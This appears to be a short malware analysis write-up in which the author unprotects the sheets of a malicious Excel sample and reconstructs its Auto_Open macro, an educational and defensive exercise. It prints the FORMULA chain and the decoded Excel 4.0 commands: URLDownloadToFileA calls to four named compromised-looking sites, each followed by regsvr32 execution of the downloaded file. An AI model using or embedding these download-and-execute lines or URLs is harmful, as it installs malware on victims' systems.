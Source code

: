 ##Sample: SHA256 2b9e253192c68bc69638043a5901d7753a9985a431738f0b22c7efea3e24bdea##
##Sample Link: https://bazaar.abuse.ch/download/2b9e253192c68bc69638043a5901d7753a9985a431738f0b22c7efea3e24bdea/ ##

After looking at John Hammonds video(https://www.youtube.com/watch?v=m6LXnM9mjrU) I decided to take a quick look and try to reconstruct the macro.

First thing I followed the same steps as the video to unhide the sheets and unprotect them. 
We need to unprotect them so that we can change the font color and modify the cells

I followed this article to brute force the password:
https://www.excelsupersite.com/how-to-unprotect-an-excel-spreadsheet-if-you-have-lost-your-password/

The general idea is to run a script on the sheet to unprotect them so that we can modify and change color of hidden text.

![image](https://user-images.githubusercontent.com/107503502/200201163-f428460f-c093-4249-b509-92511b596380.png)

The sheet is now unprotected.
I repeated this for all the sheets.

So we now have 6 sheets with some strings that are not obfuscated and actually start to make out what is goind to happen

![image](https://user-images.githubusercontent.com/107503502/200201177-95cbb78a-12c9-48a1-99e5-4a6db6a8010a.png)

Next step is to identify the entry point. Sheet 6 was unprotected so I'll start from there and check the Auto_Open macro.


![image](https://user-images.githubusercontent.com/107503502/200201206-7a2ce8b6-667c-4d67-860e-89b12bbbcfaf.png)

As you can see from the screenshot, the macro starts from the blank cell in G ( which by the way was hidden at the start, the column was shortened, so at a first glance there was a missing column)
The macro will go top-down jumping all the whitespace.

The first macro we get as seen above is:

=FORMULA(Sheet1!L24&Sheet1!L26&Sheet1!L27&Sheet1!L28&Sheet1!L28&Sheet2!F6&Sheet2!N19&Sheet1!F10&Sheet2!R3&Sheet5!Q21&Sheet2!F26&Sheet3!R13&Sheet5!E9&Sheet3!M26,G16)=FORMULA(Sheet1!L24&Sheet1!G8&Sheet1!F4&Sheet1!G8&Sheet1!L26&Sheet1!L30&Sheet1!F24&Sheet1!L26&Sheet3!F19&Sheet3!D5&Sheet1!A4&Sheet3!J14&Sheet1!A4&Sheet3!C32&Sheet1!F10&Sheet3!P21&Sheet3!L8&Sheet5!E9&Sheet1!F24&Sheet1!L31,G18)=FORMULA(Sheet1!L24&Sheet1!L26&Sheet1!L27&Sheet1!L28&Sheet1!L28&Sheet2!F6&Sheet2!N19&Sheet1!F10&Sheet2!R3&Sheet5!Q21&Sheet2!G28&Sheet3!R13&Sheet5!G15&Sheet3!M26,G20)=FORMULA(Sheet1!L24&Sheet1!G8&Sheet1!F4&Sheet1!G8&Sheet1!L26&Sheet1!L30&Sheet1!F24&Sheet1!L26&Sheet3!F19&Sheet3!D5&Sheet1!A4&Sheet3!J14&Sheet1!A4&Sheet3!C32&Sheet1!F10&Sheet3!P21&Sheet3!L8&Sheet5!G15&Sheet1!F24&Sheet1!L31,G22)=FORMULA(Sheet1!L24&Sheet1!L26&Sheet1!L27&Sheet1!L28&Sheet1!L28&Sheet2!F6&Sheet2!N19&Sheet1!F10&Sheet2!R3&Sheet5!Q21&Sheet2!I27&Sheet3!R13&Sheet5!J3&Sheet3!M26,G24)=FORMULA(Sheet1!L24&Sheet1!G8&Sheet1!F4&Sheet1!G8&Sheet1!L26&Sheet1!L30&Sheet1!F24&Sheet1!L26&Sheet3!F19&Sheet3!D5&Sheet1!A4&Sheet3!J14&Sheet1!A4&Sheet3!C32&Sheet1!F10&Sheet3!P21&Sheet3!L8&Sheet5!J3&Sheet1!F24&Sheet1!L31,G26)=FORMULA(Sheet1!L24&Sheet1!L26&Sheet1!L27&Sheet1!L28&Sheet1!L28&Sheet2!F6&Sheet2!N19&Sheet1!F10&Sheet2!R3&Sheet5!Q21&Sheet2!J29&Sheet3!R13&Sheet5!L12&Sheet3!M26,G28)=FORMULA(Sheet1!L24&Sheet1!G8&Sheet1!F4&Sheet1!G8&Sheet1!L26&Sheet1!L30&Sheet1!F24&Sheet1!L26&Sheet3!F19&Sheet3!D5&Sheet1!A4&Sheet3!J14&Sheet1!A4&Sheet3!C32&Sheet1!F10&Sheet3!P21&Sheet3!L8&Sheet5!L12&Sheet1!F24&Sheet1!L31,G30)=FORMULA(Sheet1!L24&Sheet1!G44&Sheet1!H46&Sheet1!J44,G36)

The macro contains =FORMULA() this will retrieve a given formula present in the cells and save it in the cell that is the last argument.

For example the first row will retrieve data from the Sheet1  from L24 L26 L27 L28 L28  Sheet2 F6 N19 F10 R3 SHEET5 Q12 SHEET2 F26 SHEET3 R13 SHEET5 E9 SHEET3 M26  and save it all in G16. We can see that clicking on the cell excel highlights the destination cells.
![image](https://user-images.githubusercontent.com/107503502/200201235-18eb49b0-81d5-4cf7-8c81-ba299686cf9f.png)


So, I inserted =HALT() function in the row below, so that the magic goes on and we see all the functions and calls that will be called.

![image](https://user-images.githubusercontent.com/107503502/200201254-d8a2abe3-493c-4fa7-a750-9ae91e5c666a.png)

=CALL("urlmon","URLDownloadToFileA","JJCCBB",0,"https://audioselec.com/about/dDw5ggtyMojggTqhc/","..\oxnv1.ooccxx",0,0)
=EXEC("C:\Windows\System32\regsvr32.exe ..\oxnv1.ooccxx")
=CALL("urlmon","URLDownloadToFileA","JJCCBB",0,"https://geringer-muehle.de/wp-admin/G/","..\oxnv2.ooccxx",0,0)
=EXEC("C:\Windows\System32\regsvr32.exe ..\oxnv2.ooccxx")
=CALL("urlmon","URLDownloadToFileA","JJCCBB",0,"http://intolove.co.uk/wp-admin/FbGhiWtrEzrQ/","..\oxnv3.ooccxx",0,0)
=EXEC("C:\Windows\System32\regsvr32.exe ..\oxnv3.ooccxx")
=CALL("urlmon","URLDownloadToFileA","JJCCBB",0,"http://isc.net.ua/themes/3rU/","..\oxnv4.ooccxx",0,0)
=EXEC("C:\Windows\System32\regsvr32.exe ..\oxnv4.ooccxx")
=RETURN()

And thats it. this is how i gathered easily the exact commands that will be launched using excel macros.
Nothing was obfuscated so, I guess nothing to interesting happens. But I just had fun doing it and learning a bit about macros in excel.





